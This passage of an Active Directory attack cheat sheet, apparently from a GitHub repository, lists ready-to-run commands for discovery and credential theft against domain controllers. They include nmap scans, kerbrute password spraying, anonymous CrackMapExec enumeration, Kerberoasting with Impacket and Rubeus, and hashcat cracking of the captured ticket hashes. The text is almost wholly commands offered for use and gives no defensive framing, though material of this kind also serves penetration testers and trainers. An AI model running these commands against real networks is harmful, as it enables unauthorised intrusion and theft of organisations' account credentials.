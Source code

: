 ### 🌐 Network & Service Discovery

#### Linux:

```bash
# Nmap AD Specific
nmap -p88,135,139,389,445,464,593,636,3268,3269,5985,9389 DC_IP
nmap --script smb-protocols,smb-security-mode,smb-enum-shares DC_IP
nmap --script ldap-rootdse,ldap-search DC_IP -p389,636

# Kerbrute
kerbrute userenum -d domain.com users.txt --dc DC_IP
kerbrute passwordspray -d domain.com users.txt 'Password123!' --dc DC_IP

# CrackMapExec Discovery
crackmapexec smb SUBNET/24
crackmapexec ldap DC_IP -u '' -p '' --users
crackmapexec ldap DC_IP -u '' -p '' --groups
crackmapexec winrm SUBNET/24
```

#### Windows:

```powershell
# Port Scanning
Test-NetConnection -ComputerName DC_IP -Port 88,135,139,389,445,464,593,636,3268,3269,5985,9389

# Service Discovery
Get-Service -ComputerName DC_IP | Where-Object {$_.Status -eq "Running"}
Get-WmiObject -Class Win32_Service -ComputerName DC_IP | Where-Object {$_.State -eq "Running"}
```

---

## 🔓 Credential Attacks

### 1. Kerberoasting

#### Linux:

```bash
# Impacket
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request -outputfile kerberoast_hashes.txt

# Crack with hashcat
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```

#### Windows:

```powershell
# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.txt
.\Rubeus.exe kerberoast /user:serviceaccount /outfile:hashes.txt

# PowerView
Get-DomainUser -SPN | select samaccountname,serviceprincipalname
Request-SPNTicket -SPN "HTTP/web.domain.com"
```
